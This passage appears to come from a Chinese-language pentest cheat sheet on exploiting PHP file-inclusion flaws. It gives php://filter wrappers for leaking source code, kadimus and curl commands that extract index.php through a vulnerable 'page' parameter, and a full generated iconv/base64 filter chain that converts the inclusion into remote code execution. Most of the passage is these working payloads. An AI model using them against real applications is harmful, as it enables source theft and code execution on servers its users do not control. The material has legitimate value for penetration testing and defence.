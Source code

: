 - 多次base64解码：`php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- 压缩然后`base64编码`（适用于有限字符泄露）：`php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```

还有一种方法可以将`php://filter`转换为完整的RCE。

- synacktiv/php_filter_chain_generator - 一个CLI工具，用于生成PHP过滤器链

```powershell
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
[+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UCS-2.UTF8|convert.iconv.L6.UTF8|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
